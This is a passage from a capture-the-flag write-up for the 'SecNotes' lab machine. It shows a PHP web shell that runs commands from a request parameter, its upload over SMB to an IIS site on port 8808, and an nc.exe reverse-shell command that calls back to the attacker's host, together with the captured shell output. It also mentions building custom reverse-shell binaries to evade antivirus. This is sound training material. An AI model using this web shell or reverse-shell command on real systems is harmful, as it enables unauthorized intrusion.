 Looks like we have an IIS web root directory. But where is it? Looking back at our gobuster results to see if there was something we missed, but nothing comes up for port 80. We should also look back at our all port nmap scan to see if this IIS site is running on a different port. And we can see that it is running on port 8808.

![227704931.png]({{site.baseurl}}/Images/SecNotes/227704931.png)

We have write access to this directory, lets test if we can execute code by browsing to a page.

Try a bunch of different file extensions.. It's IIS so start with the default `.asp` and `.aspx`, but notice that they error out. `.html` pages appear to work as well as `.php`. So we go back to our trusty `cmd.php` web RCE script:
```
root@kali: cat cmd.php
<?php 
echo '<pre>';
echo system($_REQUEST['cmd']); 
echo '</pre>';
?>
```

Use smbclient to upload the file and browse to it with a test query string parameter:
![227639424.png]({{site.baseurl}}/Images/SecNotes/227639424.png)

This site runs as the tyler user, but the php shell can be improved. There are many many ways to turn a php based shell like this into a full reverse shell. Because we like to avoid MSF we are not going to demonstrate this.

One method that is just as easy is to put the `nc.exe` windows binary on the machine and use our php shell to create a real reverse shell using that exe:
```
root@kali: nc -nlvp 443

smb: \> put nc.exe

http://10.10.10.97:8808/cmd.php?cmd=nc.exe -e cmd.exe 10.10.14.10 443

root@kali: nc -nlvp 443       
Listening on [unknown] (family 0, port 1004545304)
Connection from 10.10.10.97 58408 received!
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler

C:\inetpub\new-site>

```

![227639464.png]({{site.baseurl}}/Images/SecNotes/227639464.png)

If the server has an AV running it could block us from being able to upload binaries like `nc.exe` or payloads generated with msfvenom. When that is the case we need to write our own reverse shell binary that will run on Windows. If we have no access to a Windows machine to write and compile such a binary we can still write and compile C and C++ applications on Linux using the mingw cross-compiler.
